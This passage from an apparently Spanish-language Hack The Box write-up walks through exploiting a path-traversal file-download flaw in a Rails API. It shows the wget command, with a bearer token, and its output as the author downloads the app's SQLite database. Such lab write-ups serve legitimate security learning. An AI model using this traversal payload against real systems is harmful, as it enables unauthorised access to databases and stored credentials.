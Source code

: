 ![Write-up Image](images/Screenshot_16.png)

Podemos comprobar la estructura de directorios que utiliza Rails, y vemos que en `/config/database.yml` es donde se almacena la información de conexión a base de datos, esto puede ser interesante, así que vamos a echarle un vistazo.
![Write-up Image](images/Screenshot_17.png)

Sorprendentemente en producción se está utilizando SQLite3, y aquí tenemos la ruta donde está la base de datos.

Vamos a descargar la base de datos utilizando `wget` y el LFI.
```console
wget 'http://api.heal.htb/download?filename=../../storage/development.sqlite3' --header='Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ'
--2024-12-30 19:35:05--  http://api.heal.htb/download?filename=../../storage/development.sqlite3
Resolving api.heal.htb (api.heal.htb)... 10.129.142.207
Connecting to api.heal.htb (api.heal.htb)|10.129.142.207|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32768 (32K) [application/octet-stream]
Saving to: ‘download?filename=..%2F..%2Fstorage%2Fdevelopment.sqlite3’

download?filename=..%2F..%2Fstorage%2Fdevelopment.sqlite3  100%[======================================================================================================================================>]  32.00K  --.-KB/s    in 0.04s
```